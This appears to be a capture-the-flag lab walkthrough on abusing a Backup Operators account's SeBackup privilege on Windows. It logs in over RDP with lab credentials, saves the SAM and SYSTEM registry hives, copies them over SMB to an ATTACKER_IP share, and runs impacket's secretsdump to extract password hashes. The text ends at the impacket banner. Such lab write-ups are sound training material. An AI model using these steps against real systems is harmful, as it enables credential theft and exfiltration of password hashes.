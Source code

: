 #### **Copy SAM and SYSTEM registry hives to extract Administrator's password hash Use Case** <a href="#id-1gdq1lsxyjtp" id="id-1gdq1lsxyjtp"></a>

**1. RDP to target.**

xfreerdp /u:THMBackup /p:CopyMaster555 /v:10.10.21.86

* "THMBackup" is member of "Backup Operators" group.
  * Granted SeBackup and SeRestore privileges.

**2. Open command prompt using "Open as administrator" to use the elevated privileges.**

* Check account's privileges.

whoami /priv

PRIVILEGES INFORMATION

\----------------------

Privilege Name Description State

\============================= ============================== ========

SeBackupPrivilege Back up files and directories Disabled

SeRestorePrivilege Restore files and directories Disabled

SeShutdownPrivilege Shut down the system Disabled

SeChangeNotifyPrivilege Bypass traverse checking Enabled

SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

**3. Backup SAM and SYSTEM hashes.**

reg save hklm\system C:\Users\THMBackup\system.hive

reg save hklm\sam C:\Users\THMBackup\sam.hive

**4. Copy files to attacker machine.**

* Use impacket's smbserver.py to start SMB server with a network share.

mkdir share

python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share

* Creates share named public pointing to 'share' directory.
* Directory requires credentials of current Windows session.
* Transfer both files from target to attacking machine.

copy C:\Users\THMBackup\sam.hive \\\ATTACKER\_IP\public\\

copy C:\Users\THMBackup\system.hive \\\ATTACKER\_IP\public\\

**5. Use impacket to retrieve users' password hashes.**

python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL

Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation
